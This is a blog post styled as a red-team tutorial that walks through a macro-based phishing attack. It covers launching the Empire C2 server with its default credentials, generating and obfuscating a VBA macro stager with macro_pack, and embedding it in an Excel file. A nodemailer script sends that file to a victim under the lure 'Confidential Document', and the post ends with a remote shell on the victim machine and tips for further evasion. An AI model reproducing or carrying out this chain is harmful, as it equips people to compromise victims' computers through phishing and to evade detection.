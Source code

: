```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2021-11-04
image: /assets/img/redteam1/1.png
categories: [malware, phishing, nodejs, gmail, starkiller, macros, macropack]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![image](/assets/img/redteam1/1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![image](/assets/img/redteam1/2.png)

- Create Stager 

```
windows/macro
```

![image](/assets/img/redteam1/3.png)

- Copy the Macro 

![image](/assets/img/redteam1/4.png)

- Start C# Empire Server

![image](/assets/img/redteam1/5.png)

## Windows

- paste the macro stager to the windows vm
- macro.vba

![image](/assets/img/redteam1/6.png)

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![image](/assets/img/redteam1/7.png)

- the new obfuscated vba

![image](/assets/img/redteam1/8.png)

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![image](/assets/img/redteam1/9.png)

![image](/assets/img/redteam1/10.png)

![image](/assets/img/redteam1/11.png)

- Replace the empty function with the obs_macro's contents

![image](/assets/img/redteam1/12.png)

- Save it as xlsm

![image](/assets/img/redteam1/13.png)


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![image](/assets/img/redteam1/14.png)

## Victims Emails

![image](/assets/img/redteam1/15.png)

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![image](/assets/img/redteam1/16.png)

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![image](/assets/img/redteam1/17.png)

- Enable Content

![image](/assets/img/redteam1/18.png)

- Run Macro

![image](/assets/img/redteam1/19.png)

## Agent Created (Kali)

![image](/assets/img/redteam1/20.png)

- File Browser

![image](/assets/img/redteam1/21.png)

- Interact /  Shell Command

![image](/assets/img/redteam1/22.png)

## Virus Total

![image](/assets/img/redteam1/23.png)

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***





